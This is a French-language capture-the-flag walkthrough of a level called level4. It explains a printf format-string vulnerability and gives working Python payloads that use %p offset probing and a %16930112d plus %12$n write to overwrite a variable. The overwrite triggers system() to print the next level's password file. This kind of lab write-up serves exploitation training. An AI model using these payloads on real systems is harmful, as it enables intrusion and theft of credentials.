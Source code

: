 Quand on reverse l'exécutable, on voit que main appel la fonction n qui appel la fonction p.


n() appel fgets() qui recupere de maniere safe notre input.
puis dans la fonction notre input est utilisé en tant que format string pour printf
Ce qui en fait une vulnérabilité.
Après la fonction p, une variable à l'adresse 0x8049810 est stockée dans eax puis est comparée à la valeur 0x1025544 (16930116 en décimal).
Si eax est égal a cette valeur, alors `system()` est executé avec comme argument:
`0x8048590 = "/bin/cat /home/user/level5/.pass"`

Il faut donc que l'on arrive à modifier la variable à l'adresse 0x8049810 pour qu'elle contienne 0x1025544
Après quelque test on remarque que 0x8049810 vaut 0.

Grace à la vulnérabilité du printf on va pouvoir utiliser une format string attack afin de modifier la valeur de m
Pour ce faire nous avons besoin de l'emplacement de notre buffer dans la stack au moment ou printf est exécuté (l'offset)


`python -c "print('AAAA' + ' %p '*20)" | ./level4`
Le flag %p va print l'adresse d'un élément de la stack, en le faisant plusieurs fois on va "remonter" le long de la stack. Il faut juste trouver quelle adresse est égale à 41414141
On retient sa position qui est 12 et on vérifie si le 12e emplacement est bien notre buffer
( '%12\$x' signifie que l'on souhaite utiliser le 12ème argument de printf, donc le 12ème élément sur la stack )
python -c "print('AAAA' + '%12\$x')" | ./level4

Maintenant que nous avons l'offset de notre buffer on peut passer a la suite et essayer de changer des valeurs.

On souhaite ecrire l'adresse de m dans notre buffer pour ensuite utiliser le format %n afin d'ecrire le nombre de caractere ecrit avant notre format %n dans notre variable m.
---> ("coucou%n", &nb)  --> nb = 6

1ere etape:
python -c "print('\x10\x98\x04\x08' + '%12\$x')" | ./level4
cela devrait écrire notre adresse dans le 12eme argument.
Il manque plus qu'a ecrire X caractere et d'utiliser %n.

m doit avoir la valeur 0x1025544 ce qui correspond a 16930116 en decimal

On pourrait utiliser quelque chose comme ceci:
python -c "print('\x10\x98\x04\x08' + 'B'*16930116 + '%12\$n')" | ./level4

Mais la taille de notre buffer nous bloquerait pour ecrire autant de B
ce que nous pouvons utiliser est la width de printf. Si on met un format %d avec une width de 500:
%500d, printf ajoutera bien 500 caractere a notre string.

Donc si on souhaite ecrire 0x1025544 dans notre variable m il suffit d'ecrire %16930116d

Mais attention car on ecrit deja 4byte donc on le soustrait a notre valeur ce qui donne %16930112d

python -c "print('\x10\x98\x04\x08'+'%16930112d' + '%12\$n')" | ./level4

